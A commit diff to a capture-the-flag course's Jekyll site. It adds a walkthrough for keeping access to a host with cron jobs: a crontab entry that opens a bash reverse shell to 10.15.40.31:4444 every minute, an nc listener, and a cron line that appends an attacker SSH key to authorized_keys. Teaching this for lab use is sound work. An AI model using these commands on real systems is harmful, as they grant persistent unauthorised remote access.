

Before and after one commit to jboyce1/ppsCTF, a Jekyll site: the page built from classes/cyberus/cyberus.md, in a window 1280 px wide and 1400 px high, scrolled down 3178 px. Shown: the top 485 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Update cyberus.md

```diff
--- a/classes/cyberus/cyberus.md
+++ b/classes/cyberus/cyberus.md
@@ -110,7 +110,30 @@ find your ip address and delete the line (or change it so they chase their tail)
 
 use Portalord to establish a reverse ssh tunnel
 
+## Schedule cron jobs that call back to maintain persistence
 
+Respawn a reverse shell
+
+<div class="terminal"> chrontab -e </div>
+at the bottom of the page add in your kali IP and pick a port (I put in 4444, but you can use any high port)
+
+<div class="terminal"> * * * * * bash -c 'bash -i &gt;& /dev/tcp/10.15.40.31/4444 0&gt;&1'</div>
+
+<div style="text-align: center;">
+  <img src="{{ 'classes/cyberus/images/chronshell.png' | relative_url }}" alt="" style="max-width: 80%; height: auto;">
+</div>
+now on your kali machine, open a listener on the highportexit
+
+<div class="terminal"> nc -lvnp 4444 </div>
+
+<div style="text-align: center;">
+  <img src="{{ 'classes/cyberus/images/listening.png' | relative_url }}" alt="" style="max-width: 80%; height: auto;">
+</div>
+
+<div style="text-align: center;">
+  <img src="{{ 'classes/cyberus/images/heard.png' | relative_url }}" alt="" style="max-width: 80%; height: auto;">
+</div>
+* * * * * echo "ssh-rsa AAAA...attackerkey" &gt;&gt; /home/ubuntu/.ssh/authorized_keys
 ---
 
 # Process Hunting & Removal
@@ -267,12 +290,6 @@ View rules
 
 ---
 
-
-# Persistence (Stay on the Box)
-
-Attackers WILL come back unless you remove persistence.
-
----
 
 ## Cron Jobs (Scheduled Backdoors)
 
```
